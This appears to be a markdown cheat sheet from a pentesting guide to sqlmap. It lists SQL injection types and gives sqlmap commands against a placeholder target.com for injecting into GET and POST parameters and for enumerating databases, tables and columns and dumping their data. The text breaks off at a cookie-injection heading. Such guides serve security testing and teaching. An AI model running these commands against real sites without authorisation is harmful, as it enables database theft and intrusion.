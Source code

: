 
## 🧠 SQLMap: **Zero to Hero – Full-Scope Exploitation Guide**


## What is SqlMap ? 

- `sqlmap` is a fully automated **SQL injection and database takeover tool.**
- *It identifies vulnerabilities, fingerprints the DBMS, enumerates  databases/tables/users, extracts data, bypasses protections, and even drops backdoors.*

## 📚 II. Core SQL Injection Types sqlmap Handles

| Injection Type                    | Description                                          |
| --------------------------------- | ---------------------------------------------------- |
| ✅ **Boolean-based Blind**         | Responses differ based on true/false logic           |
| ✅ **Time-based Blind**            | Exploits query execution delays                      |
| ✅ **Error-based**                 | Uses DB error messages to extract info               |
| ✅ **UNION-based**                 | Combines multiple SELECTs to extract data            |
| ✅ **Stacked Queries**             | Executes multiple SQL queries in one shot            |
| ✅ **Inline Query / Second-Order** | Injection occurs in one request, executed in another |

---
## 🧪 III. Phase-by-Phase sqlmap Progression

### 1️⃣ **Recon & Basic Testing**

#### 🔧 Basic GET Param Injection

`sqlmap -u "http://target.com/page.php?id=1" --batch`
#### 🔧 POST Form Field Injection

`sqlmap -u "http://target.com/login.php" --data="username=admin&password=123" --batch`

### 2️⃣ **Database Discovery & Enumeration**

### 🎯 List DBMS & Banner

`sqlmap -u URL --banner
### 🎯 List Databases

`sqlmap -u URL --dbs`

### 🎯 List Tables in a DB

`sqlmap -u URL -D database_name --tables`

### 🎯 List Columns in a Table

`sqlmap -u URL -D database_name -T table_name --columns`

### 🎯 Dump Table Data

`sqlmap -u URL -D database_name -T table_name --dump`

### 3️⃣ **Authentication Handling**

### 🔑 Cookie-Based Injection